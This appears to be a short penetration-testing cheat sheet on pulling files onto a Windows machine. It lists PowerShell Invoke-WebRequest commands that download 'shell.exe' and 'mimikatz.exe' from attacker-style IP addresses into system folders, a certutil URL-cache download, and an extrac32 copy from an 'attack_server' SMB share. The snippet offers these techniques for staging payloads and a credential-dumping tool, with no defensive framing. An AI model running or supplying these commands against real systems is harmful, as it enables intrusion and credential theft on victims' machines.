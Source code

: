 Grabbing file from http server:

```
powershell -c "Invoke-WebRequest" -Uri 'http://10.10.10.10:80/shell.exe' -OutFile 'c:\windows\temp\shell.exe'
```

powershell -c "Invoke-WebRequest" -Uri 'http://10.13.22.125:80/mimikatz.exe' -OutFile 'mimikatz.exe'

---

The command `certutil.exe` can also be used
```
certutil.exe -urlcache -split -f http://web.server/stuff.exe output.exe
```

---

`extrac32.exe` can also be used, but you must stand up an SMB share

```
extrac32 /Y /C \\attack_server\share\test.txt C:\victim\test.txt
```

---


